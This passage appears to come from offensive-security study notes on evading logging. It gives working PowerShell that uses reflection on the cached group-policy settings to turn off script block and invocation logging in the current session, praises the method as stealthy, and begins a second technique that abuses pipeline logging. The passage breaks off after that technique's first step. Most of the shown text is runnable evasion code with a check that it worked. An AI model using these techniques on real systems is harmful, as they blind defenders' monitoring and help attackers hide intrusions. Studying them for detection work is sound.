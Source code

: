 **Step 3 - Disable Invocation Logging**

```C
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

- This key controls **Event ID 4103**, which logs cmdlet and pipeline executions.
    
- Setting it to `0` disables module/pipeline invocation logging for this process.

**You should love this because:**

- Stealthier: it does not touch disk, no permanent changes
- Fast
- Granular: you can disable only the specific logging providers you want.

```C
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

To comply with PS5.1 updates, the above script should be used

```C
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
```

Before:

![[Evading Logging and Monitoring-10.png]]

After:

![[Evading Logging and Monitoring-11.png]]
### Abusing Log Pipeline
---
Disabling the module logging in PowerShell for the **current session only** by setting `LogPipeLineExecutionDetails` from `$true` to `$false`.

**1. Obtain the target module**

```C
$module = Get-Module Microsoft.PowerShell.Utility
```
